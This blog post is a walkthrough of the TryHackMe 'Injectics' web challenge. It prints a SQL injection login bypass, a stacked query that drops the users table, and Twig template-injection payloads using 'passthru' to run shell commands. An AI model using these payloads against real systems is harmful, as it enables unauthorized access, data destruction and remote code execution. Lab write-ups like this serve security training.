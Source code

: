```yaml
---
title: "Writeup: TryHackMe Injectics"
date: "2025-02-13T04:47:13.438Z"
slug: "writeup-tryhackme-injectics"
categories:
    - "writeups"
    - "it"
---
```


> [!info]
> - [Injectics](https://tryhackme.com/room/injectics)
> - Difficulty: medium
> - Platform: web
> 
> Can you utilise your web pen-testing skills to safeguard the event from any injection attack?
>
> Answer the questions below:
> 1. What is the flag value after logging into the admin panel?
> 2. What is the content of the hidden text file in the flags folder?


This room acts as a final challenge for the advanced injection attacks module. Vulnerabilities explored were:
- Information disclosure
- SQL injections
- Server-side template injection

{{< toc >}}

## Information gathering

I didn't go for the port scanning because it was evident that our focus was to find injection points in the web application.  

First, I checked the home page source code. It has interesting comments:

```html
<!-- Website developed by John Tim - dev@injectics.thm-->

<!-- Mails are stored in mail.log file-->
```

Next, I explored the website. The only working link on the home page is to the `/login.php` page which also has "Login as administrator" link to `/adminLogin007.php`. Both are loading `script.js` which handles input validation:

```js
...
const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
for (let keyword of invalidKeywords) {
	if (username.includes(keyword)) {
		alert('Invalid keywords detected');
	   return false;
	}
}
...
```

The script checks for SQL keywords, thus, it seems like a good place to try SQLi.

Before doing that, I opened `/mail.log` file mentioned in the comments:

```
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | REDACTED                |
| dev@injectics.thm         | REDACTED                |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm

```

Three important pieces here:
- There are two known users.
- Their info is stored in the table `users`.
- If something happens to the table, it gets recreated with the default credentials.

Just to be sure, I tried logging in with these credentials, but it wasn't successful. 

## Bypassing authentication: SQLi

I captured requests during login attempts with the Burp Suite. I copied them to files and used [sqlmap](https://sqlmap.org/) to find vulnerabilities. It could not detect anything for the administrator login page but successfully identified injection point for the normal login. 

```
$ sqlmap -r functions.req --level 4
...
sqlmap identified the following injection point(s) with a total of 1758 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=superadmin@injectics.thm' RLIKE SLEEP(5)-- MGux&password=&function=login
---
```

With the suggested payload, I logged into the dashboard.

> [!note]
> It's possible to achieve the same result with a simpler payload: `' || 1=1;-- -`


## Resetting users: SQLi

The dashboard provides the ability to edit the leader board. A`POST` request to `/edit_leaderboard.php` saves new data. Here I again used sqlmap to find vulnerable fields:

```
$ sqlmap -r edit.req --level 4
...
---
Parameter: gold (POST)
    Type: boolean-based blind
    Title: MySQL boolean-based blind - Parameter replace (MAKE_SET)
    Payload: rank=1&country=&gold=MAKE_SET(1637=1637,3031)&silver=21&bronze=12345
---
...

```

I did a lot of poking around trying to exploit it. Breakthrough moment came with a very simple payload `42;` which updated medals for all countries instead of the selected one. 

So, I was ready to reset users by dropping their table using payload `42; drop table users;`:


```
POST /edit_leaderboard.php HTTP/1.1
Host: MACHINE_IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.170.160/edit_leaderboard.php?rank=1&country=USA
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://MACHINE_IP
Connection: keep-alive
Cookie: PHPSESSID=4jvgqrd1bqc47rqrv7m47id7q1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

rank=6&country=&gold=0&silver=0&bronze=42; drop table users;

--- 

HTTP/1.1 200 OK
Date: Mon, 10 Feb 2_025 19:45:53 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 127
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

> [!note]
> As you noticed, both attempts at using sqlmap only complicated things. Try simple stupid things first!

## Getting the first flag
After the user table was restored, I logged in as an administrator using credentials found in `mail.log`. Here, in the dashboard, we can see our first flag: `THM{REDACTED}`.


## Reading hidden flag file: RCE via SSTI

Next flag should be in the flags directory. If you navigate to `/flags` while logged in as an administrator, you receive access denied error; thus, we need to find another way to access this directory.

There is a "Profile" button which leads to `/update_profile.php` page with three editable fields: email, first name, last name. Editing first name changes to the dashboard greeting.

By then, I was pretty confident that we had to find a SSTI vulnerability because (a) it was part of the module (b) it's simple enough to allow RCE. My first payload was `{{7*'7'}}` to confirm that it was Twig templating engine.

Exploitation proved difficult for me. While trying [different payloads](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/PHP/#twig) I quickly understood that we're in the sandbox. So I tried exploiting [CVE-2022-23614](https://nvd.nist.gov/vuln/detail/CVE-2022-23614) vulnerability that allows bypassing sandbox mode via `sort` function. I was on the right track but ended up looking for a hint, because functions `exec` and `system` did not work. [There I learned](https://jaxafed.github.io/posts/tryhackme-injectics/) about another useful function: `passthru`.



First, a payload to list files in the directory `flags`:

```
{{['ls flags',""]|sort('passthru')|join}}
```

And finally, to get the flag:

```
{{['cat flags/REDACTED.txt',""]|sort('passthru')|join}}
```

![Screenshot of the dashboard with displayed flags](dashboard.png)


